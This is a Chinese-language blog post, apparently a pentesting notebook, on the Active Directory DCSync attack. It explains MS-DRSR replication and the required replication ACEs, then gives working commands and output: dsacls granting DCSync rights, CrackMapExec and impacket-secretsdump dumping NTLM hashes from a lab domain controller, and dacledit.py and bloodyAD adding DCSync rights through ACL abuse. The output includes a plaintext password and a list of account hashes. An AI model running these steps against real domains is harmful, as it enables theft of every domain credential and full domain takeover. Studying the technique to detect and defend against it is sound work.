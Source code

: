 ```yaml
---
layout: post
title: DCSync
categories: [Active Directory]
tags: [dcsync]
---
```


## DCSync Attack

在 Active Directory 中，每个域控制器都存储着完整的目录数据库。为了保证数据的一致性和可用性，域控制器之间会进行定期的数据同步。默认情况下，域内不同 DC 每隔 15 分钟会进行一次数据同步，当一个 DC 从另外一个 DC 同步数据时，它会使用目录复制服务远程协议 ([MS-DRSR](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/f977faaa-673e-4f66-b9bf-48c640241d47)) 发送 DSGetNCChanges 请求，来对另外一台域控中的域用户凭据进行复制。

DCSync 攻击就是利用域控制器之间同步的原理，通过 Directory Replication Service（DRS，目录复制服务）远程协议的 [IDL_DRSGetNCChanges](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-drsr/b63730ac-614c-431c-9501-28d6aca91894) 接口，模拟 DC 向真实 DC 发起数据同步请求，来窃取域用户凭据。**_由于 MS-DRSR 协议是 Active Directory 的有效且必要的功能，因此无法将其关闭或禁用。_**

> 注：DCSync 攻击对[只读域控制器 (RODC)](https://learn.microsoft.com/zh-cn/windows/win32/ad/rodc-and-active-directory-schema)无效，因为 RODC 不能参与复制同步数据到其他 DC。

在域内，对用户所具有的权限其实最根本是看用户的 DACL。对于 DCSync 攻击来说，只要域用户拥有以下三条 ACE 即可向域控发出数据同步请求，从而去转储域内用户凭据，这三条 ACE 分别为：

| **ACE**                                                                                                                                             | **GUID**                             | **描述**                                                               |
| --------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------ | ---------------------------------------------------------------------- |
| [DS-Replication-Get-Changes](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes)                                 | 1131f6aa-9c07-11d1-f79f-00c04fc2dcd2 | 复制目录更改                                                           |
| [DS-Replication-Get-Changes-All](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-all)                         | 1131f6ad-9c07-11d1-f79f-00c04fc2dcd2 | 全部复制目录更改                                                       |
| [DS-Replication-Get-Changes-In-Filtered-Set](https://learn.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes-in-filtered-set) | 89e95b76-444d-4c62-991a-0facbeda640c | 在过滤集中复制目录更改（这个并不总是需要的，但我们可以添加它以防万一） |

默认情况下，只有 Domain Admins、Enterprise Admins 和 Domain Controllers 组具有所需的权限。但我们可以对域内普通用户添加 ACE 实现普通用户调用 DCSync 导出域内所有用户的 hash。

### No DRSUAPI

实现 Microsoft 目录复制服务远程协议 (MS-DRSR) 的 Microsoft API 称为 [DRSUAPI](https://wiki.samba.org/index.php/DRSUAPI)。

[certsync](https://github.com/zblurx/certsync) 实现了在没有 DRSUAPI 的情况下远程转储 NTDS 的新技术（Golden Certificates + UnPAC the hash automation）。

```console
root@kali-server:~# certsync -u <username> -p <password> -d <domain.com> -dc-ip <dc_ip> -ns <dc_ip>
```

### Example

在 Active Directory 环境中，可以使用 [dsacls](https://learn.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc771151(v=ws.11)) 命令行工具，授予用户 DCSync 权限：

```powershell
$Account = "xiaorang.lab\chenglei"
$RootDSE = [ADSI]"LDAP://RootDSE"
$DefaultNamingContext = $RootDse.defaultNamingContext
$ConfigurationNamingContext = $RootDse.configurationNamingContext

dsacls.exe "$DefaultNamingContext" /G "$($Account):CA;Replicating Directory Changes"
dsacls.exe "$ConfigurationNamingContext" /G "$($Account):CA;Replicating Directory Changes"
```

CME 使用 DCSync 转储域管凭据：

```console
root@kali-server:~# proxychains4 -q cme smb 172.22.13.6 -u chenglei -p Xt61f3LBhg1 --ntds --user Administrator
SMB         172.22.13.6     445    WIN-DC           [*] Windows 10.0 Build 20348 x64 (name:WIN-DC) (domain:xiaorang.lab) (signing:True) (SMBv1:False)
SMB         172.22.13.6     445    WIN-DC           [+] xiaorang.lab\chenglei:Xt61f3LBhg1
SMB         172.22.13.6     445    WIN-DC           [-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
SMB         172.22.13.6     445    WIN-DC           [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         172.22.13.6     445    WIN-DC           Administrator:500:aad3b435b51404eeaad3b435b51404ee:6341235defdaed66fb7b682665752c9a:::
SMB         172.22.13.6     445    WIN-DC           [+] Dumped 1 NTDS hashes to /root/.cme/logs/WIN-DC_172.22.13.6_2023-10-08_202001.ntds of which 1 were added to the database
SMB         172.22.13.6     445    WIN-DC           [*] To extract only enabled accounts from the output file, run the following command:
SMB         172.22.13.6     445    WIN-DC           [*] cat /root/.cme/logs/WIN-DC_172.22.13.6_2023-10-08_202001.ntds | grep -iv disabled | cut -d ':' -f1
SMB         172.22.13.6     445    WIN-DC           [*] grep -iv disabled /root/.cme/logs/WIN-DC_172.22.13.6_2023-10-08_202001.ntds | cut -d ':' -f1
```

impacket-secretsdump 使用 DCSync 从域控转储所有域用户凭据：

```console
root@kali-server:~# proxychains4 -q impacket-secretsdump xiaorang.lab/chenglei:Xt61f3LBhg1@WIN-DC.xiaorang.lab -target-ip 172.22.13.6 -just-dc-ntlm -history -user-status
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:6341235defdaed66fb7b682665752c9a::: (status=Enabled)
Administrator_history0:500:aad3b435b51404eeaad3b435b51404ee:6341235defdaed66fb7b682665752c9a:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (status=Disabled)
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cb976ec1a1bf8a14a15142c6fecc540e::: (status=Disabled)
zhangwen:1104:aad3b435b51404eeaad3b435b51404ee:fa7d776fdfc82d3f43c9d8b7f5312d77::: (status=Enabled)
chenglei:1105:aad3b435b51404eeaad3b435b51404ee:0c00801c30594a1b8eaa889d237c5382::: (status=Enabled)
zhangtao:1106:aad3b435b51404eeaad3b435b51404ee:e786c4a4987ced162c496d0519496729::: (status=Enabled)
WIN-DC$:1000:aad3b435b51404eeaad3b435b51404ee:5fa21833f17c543f85bc6bae0b6421e9::: (status=Enabled)
WIN-HAUWOLAO$:1103:aad3b435b51404eeaad3b435b51404ee:752d59538cd69d731983cd2b7dfc4b63::: (status=Enabled)
[*] Cleaning up...
```

## Add DCSync Rights - ACL Abuse

当域用户有权限修改整个域对象的 ACL 时，可以给任意用户添加 DCSync 所需要的权限。

![image.png](https://raw.githubusercontent.com/h0ny/repo/main/images/12f7bbbae9d4b417.png)

在第三方 impacket 包中的 [dacledit.py](https://github.com/ThePorgs/impacket/blob/master/examples/dacledit.py) 脚本，可以滥用 ACL 权限，远程给用户添加 DCSync 权限：

```console
root@kali-server:~# proxychains4 -q python3 dacledit.py xiaorang.lab/chenglei:'Xt61f3LBhg1' -action write -rights DCSync -principal chenglei -target-dn 'DC=xiaorang,DC=lab' -dc-ip 172.22.13.6
Impacket for Exegol - v0.10.1.dev1+20230303.141054.8975ed2d - Copyright 2022 Fortra - forked by ThePorgs

[*] DACL backed up to dacledit-20230718-200428.bak
[*] DACL modified successfully!
```

[bloodyAD](https://github.com/CravateRouge/bloodyAD) 添加 DCSync 权限：

```console
root@kali-server:~# proxychains4 -q bloodyAD -d xiaorang.lab -u chenglei -p Xt61f3LBhg1 --host 172.22.13.6 add dcsync chenglei
[+] chenglei is now able to DCSync
```

## References

- 域渗透中的DCSync技术分析  
  [https://zhuanlan.zhihu.com/p/581922712](https://zhuanlan.zhihu.com/p/581922712)
- Active Directory Replication  
  [https://threathunterplaybook.com/library/windows/active_directory_replication.html](https://threathunterplaybook.com/library/windows/active_directory_replication.html)
- Adding DCSync Permissions from Linux  
  [https://www.n00py.io/2022/01/adding-dcsync-permissions-from-linux/](https://www.n00py.io/2022/01/adding-dcsync-permissions-from-linux/)
- ACL Abuse - Pentester's Promiscuous Notebook  
  [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse#add-dcsync-rights](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/acl-abuse#add-dcsync-rights)
- DCSync - The Hacker Recipes  
  [https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync](https://www.thehacker.recipes/ad/movement/credentials/dumping/dcsync)
- Granting the Replicating Directory Changes Permission  
  [http://blog.goverco.com/2011/08/granting-replicating-directory.html](http://blog.goverco.com/2011/08/granting-replicating-directory.html)
